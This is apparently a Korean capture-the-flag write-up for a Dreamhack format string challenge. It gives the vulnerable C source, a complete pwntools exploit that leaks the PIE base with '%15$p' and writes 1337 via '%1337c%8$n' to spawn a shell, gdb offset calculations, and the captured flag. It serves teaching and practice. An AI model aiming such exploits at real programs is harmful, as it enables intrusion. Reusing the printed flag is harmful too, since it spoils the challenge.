



# G4 · Format String Bug (fsb_overwrite)

### 1. 문제 확인

`pwnable` 분류의 G4 문제. `printf(buf)`로 사용자 입력을 포맷 문자열에 그대로 넘기는 **포맷 스트링 버그(FSB)**가 있다. 전역변수 `changeme`를 `1337`로 만들면 셸이 열린다. PIE + Full RELRO라 주소가 매번 랜덤이다.

<p align="center">
  
</p>

### 2. 코드

```c
int changeme;

int main() {
  char buf[0x20];
  setbuf(stdout, NULL);
  while (1) {
    get_string(buf, 0x20);     // read(0, buf, 0x20)
    printf(buf);               // ★ FSB
    puts("");
    if (changeme == 1337)      // 목표: changeme = 1337
      system("/bin/sh");
  }
}
```

- `printf(buf)` → buf 안의 `%p`, `%n`이 포맷으로 해석됨.
- `while(1)` 반복이라 **입력을 여러 번** 보낼 수 있다. 1번째로 주소를 leak하고, 2번째로 `changeme`를 덮는다.

### 3. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = remote('host3.dreamhack.games', 15758)
elf = ELF('./fsb_overwrite')

# [1] 코드 베이스 누출
p.sendline(b'%15$p')
leaked = int(p.recvline()[:-1], 16)
code_base = leaked - 0x1293
changeme = code_base + elf.symbols['changeme']
slog('code_base', code_base)
slog('changeme', changeme)

# [2] changeme 를 1337 로 덮기
payload  = b'%1337c'
payload += b'%8$n'
payload += b'A' * 6
payload += p64(changeme)
p.sendline(payload)

p.interactive()   # changeme == 1337 -> system("/bin/sh")
```

### 4. 스택은 왜 `%6$`부터인가 (기준점)

이 뒤 계산이 전부 여기서 출발하므로 먼저 정리한다.

x86-64에서 `printf(fmt, ...)`의 인자 순서는 **레지스터 먼저, 그 다음 스택**이다.

| 인자 번호 | 위치 |
|---|---|
| (fmt) | rdi ← 포맷 문자열 자체라 `%N$`가 안 셈 |
| %1$ ~ %5$ | rsi, rdx, rcx, r8, r9 (레지스터 5개) |
| %6$ | **[rsp+0]** |
| %7$ | [rsp+8] |
| %8$ | [rsp+0x10] |
| ... | ... |

즉 가변인자 5개는 레지스터에서 소비되고, **스택에서 읽는 첫 값이 `%6$`**다. 그래서 스택 관련 인덱스는 전부 6부터 센다. 이게 모든 오프셋 계산의 기준이다.

### 5. 코드 베이스 누출 — 왜 `%15$p`이고 왜 PIE 베이스인가

**왜 베이스가 필요한가**: PIE + Full RELRO라 바이너리가 매번 다른 주소에 올라간다. `changeme`의 실제 주소를 하드코딩할 수 없다. 그래서 먼저 코드 베이스를 알아내야 한다.

**어떻게 아는가**: 스택에는 **리턴 주소**(코드 영역을 가리키는 포인터)가 올라가 있다. 이걸 leak하면 베이스를 역산할 수 있다.

gdb로 `printf(buf)` 지점에 멈춰 스택을 보면 `rsp+0x48`에 코드 주소가 있다.

```text
pwndbg> x/gx $rsp+0x48
0x7fffffffe318: 0x0000555555555293     # 리턴 주소 (코드 영역)
```

이 `rsp+0x48`을 `%N$`로 바꾸면:

```
(0x48 / 8) + 1 + 5 = 9 + 1 + 5 = 15
```
- `0x48 / 8 = 9` : rsp에서 9칸 위
- `+1` : [rsp+0] 자체가 `%6$`니까 [rsp+0x48]은 스택에서 10번째 칸이지만, 인덱스로는 `%6 + 9`
- `+5` : 앞의 레지스터 5개

→ 그 리턴 주소는 `%15$`. 그래서 `%15$p`로 한 방에 leak한다.

**베이스 역산**: 리턴 주소의 바이너리 내 **고정 오프셋**은 `0x1293`이다(아래처럼 gdb에서 측정, 컴파일 타임 상수라 ASLR과 무관).

```text
pwndbg> p/x 0x555555555293 - 0x555555554000   # 리턴주소 - PIE base
$1 = 0x1293
```

leak값과 베이스는 매번 랜덤이지만 **차이는 고정**이므로:

```
code_base = leaked - 0x1293
changeme  = code_base + 0x401c   # changeme 심볼 오프셋
```

> 주의: `rsp+0x48`과 `%15$`는 환경(스택 정렬/패딩)에 따라 `0x58`, `%17$` 등으로 달라질 수 있다. 본인 환경에서 `x/gx`로 직접 확인한다.

### 6. changeme 덮기 — 왜 `%8$n`인가

이제 `changeme`에 `1337`을 **쓴다**. 원리는 `%c` 폭으로 출력 글자 수를 `1337`로 만들고, `%n`으로 그 수를 주소에 기록하는 것이다.

- `%1337c` : 문자 1개를 폭 1337로 출력 → 1337글자 → printf 카운트 = 1337.
- `%8$n` : 그 카운트(1337)를 **8번째 인자가 가리키는 주소**에 기록.

payload 배치:

```
offset 0  : "%1337c%8$n"   (10바이트)
offset 10 : "AAAAAA"       (6바이트)   → 16까지 채움(8의 배수 정렬)
offset 16 : p64(changeme)  ← 이 자리가 %8$
```

**왜 offset 16 = `%8$`인가**:
- `buf`는 이 바이너리에서 `printf(buf)` 호출 시 `rsp`에 바로 놓인다. 즉 buf 시작 = `[rsp+0]` = **`%6$`** (4번 항목의 기준).
- payload는 buf에 들어가므로, buf 안의 offset도 그대로 인덱스로 이어진다:
  - buf+0 (offset 0)  = `%6$`
  - buf+8 (offset 8)  = `%7$`
  - buf+16 (offset 16) = `%8$`
- 그래서 `changeme` 주소를 buf+16에 두면 그게 `%8$`이고, `%8$n`이 거기를 읽어 `changeme`에 1337을 쓴다.

**왜 offset 16(= `A`\*6 패딩)인가**: 포맷 부분 `%1337c%8$n`이 10바이트라 offset 8을 넘어간다. 주소는 8바이트 경계에 둬야 `%N$`가 깨끗이 읽으므로, 다음 경계인 16까지 6바이트(`AAAAAA`)를 채워 정렬한 것이다.

결과: `changeme = 1337` → 루프의 `if (changeme == 1337)`가 참 → `system("/bin/sh")`.

### 7. 실행 결과

<p align="center">
  
</p>

```text
DH{b283dec57b17112a4e9aa6d5499c0f28}
```
